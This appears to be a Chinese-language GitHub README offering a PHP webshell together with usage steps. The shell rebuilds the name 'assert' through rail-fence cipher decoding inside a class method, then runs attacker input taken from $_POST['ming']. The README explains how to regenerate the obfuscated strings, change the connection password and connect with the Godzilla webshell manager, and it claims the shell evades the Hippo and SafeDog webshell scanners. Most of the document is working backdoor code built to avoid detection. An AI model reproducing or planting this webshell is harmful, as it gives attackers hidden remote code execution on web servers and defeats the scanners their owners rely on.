 # Bypass php webshell
## 0x01 Ways

栅栏加密，类方法，采用拼接assert函数名的方式达到绕过

php版本有限制,在phpstudy环境下尝试只有php版本低于或者等于7.0.9才能使用

以下是php代码逻辑

```php
<?php
class ming{
    function decode_ming($ling) {          
        $str='e15s544mgl633610ita71478rn';
        $n=3;
        $length = strlen($str);
        $table = array();
        $quotient = (int)($length / $n);
        $remainder = $length % $n;
        for ($i = 0; $i < $n; $i++) {
            $table[$i] = array();
        }
        $index = 0;
        for ($i = 0; $i < $n; $i++) {
            $rowCount = $quotient + ($i < $remainder ? 1 : 0);
            for ($j = 0; $j < $rowCount; $j++) {
                $table[$i][$j] = $str[$index++];
            }
        }
        $decodedStr = '';
        for ($i = 0; $i < $quotient + 1; $i++) {
            for ($j = 0; $j < $n; $j++) {
                if (isset($table[$j][$i])) {
                    $decodedStr .= $table[$j][$i];
                }
            }
        }       //栅栏加密的解密程序，用来将字符串$str以及栅栏变量$n进行解密得出$decodedStr
        $config=$decodedStr['2'].$decodedStr['9'].$decodedStr['9'].$decodedStr['0'].$decodedStr['20'].$decodedStr['25'];
                //用于重组assert，来使用assert函数
        return $config($ling);
    }
}
$ming=new ming();//创建一个类
function myHiddenPost($key) {
    return isset($_POST[$key]) ? $_POST[$key] : null;
}               
$mingValue = myHiddenPost('ming');
                 //使用myHiddenPost函数来定义$mingValue=$_POST['ming']
$ming->decode_ming($mingValue);
                 //使用decode_ming函数来构造//assert($_POST['ming']);
?>
```

### 食用方式
通过generate.php获取$config字段以及栅栏加密混淆的payload

![image-20231014132450168](./images/5.png)

替换$str字符串以及$config字符串

![image-20231014132450168](./images/6.png)
![image-20231014132450168](./images/7.png)

$mingValue = myHiddenPost('ming')设置了连接密码为ming，如果有需要请更改它

![image-20231014132450168](./images/9.png)

配置好即可用Godzilla连接

![image-20231014132450168](./images/8.png)
## 0x02 Results

bypass 河马webshell查杀 以及  安全狗(两种查杀工具杀不到混淆木马)

![image-20231014132450168](./images/3.png)

